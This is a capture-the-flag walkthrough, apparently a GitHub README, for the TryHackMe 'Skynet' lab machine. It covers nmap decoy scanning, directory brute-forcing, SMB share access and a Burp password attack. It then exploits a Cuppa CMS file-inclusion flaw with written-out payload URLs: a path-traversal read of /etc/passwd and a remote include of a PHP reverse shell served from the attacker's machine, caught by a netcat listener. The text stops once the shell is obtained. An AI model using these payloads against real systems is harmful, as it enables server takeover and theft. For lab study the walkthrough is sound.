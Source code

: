 
![intro](https://github.com/user-attachments/assets/f9d84f33-79f8-494d-993e-1398ae195ed4)

# tryhackme-Skynet-writeup
This is a walkthrough for the tryhackme CTF Skynet. I will not provide any flags or passwords as this is intended to be used as a guide.

## Scanning/Reconnaissance

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -D RND:10 -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals a few open ports that will prove very useful:

![nmap1](https://github.com/user-attachments/assets/b1fe2435-176d-40e8-94e4-4638fa50b40e)

First, let check out the webserver on port 80. It takes use to a skynet search engine, that doesn't seem to have much of any functionality.

![skynet search](https://github.com/user-attachments/assets/f03da96c-57b1-45b4-9faa-e5f1ff157a88)

Ok, let's try a gobuster scan on the target.
```bash
gobuster dir -u $ip -w=/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -x php,txt,html -o bust.txt
```
The scan reveals a few interesting directories:

![buster](https://github.com/user-attachments/assets/fc0b7eba-d432-4df7-adc7-059c36c20d41)

![nikto](https://github.com/user-attachments/assets/3fd6b280-f9c4-4f27-84bb-446aaf06644e)


Most of them are forbidden, but squirrelmail takes us to a webmail login. This must be the 110/tcp pop3 port that was revealed in the nmap scan. I tried to log in with some default credentials but no luck. Let's take note of the error message "Unknown user or password incorrect."

# SMB Enumeration
Our nmap scan revealed 445/tcp for smbd Samba. 

![nmap smb](https://github.com/user-attachments/assets/0b5faf0f-148e-4228-88a6-695927533129)

A good tool for digger deeper on this is enum4linux. 
```bash
enum4linux $ip | tee enum.txt
```
The scan revealed a list of shares, including anonymous where the mapping wasn't denied, and /milesdyson share. 
Let's try to log onto the anonymous share using smbclient and no password: 

![smbclient anon](https://github.com/user-attachments/assets/72391461-7bd5-4038-9e34-0b40e78c2057)

And we're in! Use get attention.txt and log1.txt as we can see that log1 is only file containing info. Let's make a smb dir and move the files into it:
```bash
mkdir smb | mv attention.txt log1.txt smb
```

![smb files](https://github.com/user-attachments/assets/e1d6ab6d-5abb-4f16-b45e-c923b5873b18)

So we have a message from Miles Dyson about changing passwords and a wordlist, which likely contains a valid password. Let's try to attack Mile's password to squirrelmail.
Since we're dealing with a pretty small number of possible passwords, I'll just use burp suite to attack the login. Turn on burp proxy to capture the post login request, right click the request and sent to intruder. Leave sniper attack selected and position the payload markers on the password, (in my case I just used admin) as shown in the screen shot. Next, move to the payloads tab, and load the smb wordlist log1.txt and click attack. Before long the password will be revealed as it results in a different status and length:

![sniper results](https://github.com/user-attachments/assets/89891a06-33d4-4b14-994a-be277c94fdfc)

We can now log into Miles mail with milesdyson and the password.

There are a couple messages from serenakogan@skynet that appear to contain an encoded binary message. Let's head to CyberChef and decode from binary. We get the message "balls have zero to me to me to me to me to me to me to me to me to". The other message from her is not encrypted and apears to have more song lyrics "i can i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i i can i i i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i . . . . . . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i i i i i everything else . . . . . . . . . . . . . .
balls have 0 to me to me to me to me to me to me to me to me to
you i i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me t".
I did a little research on what this is, and it was reported on a Facebook AI experiment, where bots who were programmed to engage in negotiations began to develop their own language and this was from bot negotiations. Interesting, but unrelated to this CTF's progress. Here's a link to an article if you interested: https://www.poetryfoundation.org/harriet-books/2017/06/balls-have-zero-to-me-to-me-ais-non-human-language

Let's check out the email samba password reset. It sure enough it has Mile's password for smb login.
Now let's use smbclient again to log onto the smb share:
```bash
smbclient -U milesdyson //$ip/milesdyson
```
And we're in! There's a lot of irrelivent files here, so let's just cd into notes. There's a file called important.txt and I bet it is important. Let's get it.

![important](https://github.com/user-attachments/assets/8fd28c32-991c-4256-a266-fce4f6941628)

This is the T 800 by the way:

![T 800](https://github.com/user-attachments/assets/443575a4-e053-40a5-9523-a7bfa7124a05)

CMS /45kra24zxs28v3yd is a hidden directory:

![hidden dir](https://github.com/user-attachments/assets/06e7034e-fc47-4ee6-b63e-a50fbcad115f)

It's a bio page for Dr. Miles Dyson, but it doesn't seem to have anything else of interest. Let's do a gobuster scan to see if it leads to other hidden directories:
```bash
gobuster dir -u $ip/45kra24zxs28v3yd -w=/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -x php,txt,html -o bust.txt
```
And this reveals an administrator directory:


![cuppa cms](https://github.com/user-attachments/assets/8a36934b-9b82-4bb1-835d-8a265ca543d4)

I tried logging in with the credentials we found earlier but no luck. Let's try searching for vulnerabilities in this "cuppa cms" with searchsploit.

![searchsploit](https://github.com/user-attachments/assets/24dcf396-5117-43f4-972f-947882757361)

Here's a run down of the exploit: 
#####################################################
DESCRIPTION
#####################################################

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]

#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

So, let's try to get the /etc/passwd file first. Our crafted payload should look like this but with whatever your target IP is:
```bash
http://10.10.19.189/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```
And we have the /etc/passwd file, which we will save.
Now, let's craft a payload based off the the first example to get a reverse shell. We'll head to revshells.com, input your IP and port(I'm using the default 9001. Now scroll down on the left and I'm going to use the PHP Pentest Monkey shell. Save it as a file on your machine. Set up a netcat listener on the listening port in our shell.
```bash
nc -lvnp 9001
```
And set up a python server:
```bash
python3 -m http.server
```
Our crafted payload should look like this, except the target IP and whatever your named your shell file:
```bash
http://10.10.33.12/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.184.75:8000/monkey.php
```
And we down have a reverse shell as www-data! Upgrade your shell as shown in the screen shot:

![shell](https://github.com/user-attachments/assets/c75151c8-6f82-47a1-bf9b-9635d0615000)
